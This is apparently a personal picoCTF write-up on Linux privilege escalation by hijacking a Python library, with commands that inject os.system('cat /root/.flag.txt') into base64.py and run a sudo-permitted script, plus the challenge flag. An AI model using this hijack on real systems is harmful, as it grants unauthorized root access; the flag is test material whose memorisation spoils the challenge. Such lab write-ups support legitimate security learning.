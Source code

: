 ```yaml
---
ai_date: '2025-04-27 05:29:42'
ai_summary: Escalated privileges by modifying Python library to execute system command
  and retrieving the flag
ai_tags:
- python
- library-hijack
- sys-call
created: 2024-11-16T15:01
tags:
- escalation
updated: 2024-11-16T19:43
---
```


python based linux escalation.
## escalation

```bash
picoctf@challenge:~$ sudo -l
Matching Defaults entries for picoctf on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoctf may run the following commands on challenge:
    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py
```

We can run `.server.py` without password, but it is readonly.

```python [.server.py]
import base64
import os
import socket
ip = 'picoctf.org'
response = os.system("ping -c 1 " + ip)
#saving ping details to a variable
host_info = socket.gethostbyaddr(ip)
#getting IP from a domaine
host_info_to_str = str(host_info[2])
host_info = base64.b64encode(host_info_to_str.encode('ascii'))
print("Hello, this is a part of information gathering",'Host: ', host_info)
```

We can instead edit python libraries.

```bash
vi /lib/python3.8/base64.py
```

Add these lines

```python
import os
os.system('cat /root/.flag.txt')
```

Run the python file.

```bash
sudo /usr/bin/python3 /home/picoctf/.server.py
```

```flag
picoCTF{pYth0nn_libraryH!j@CK!n9_6924176e}
```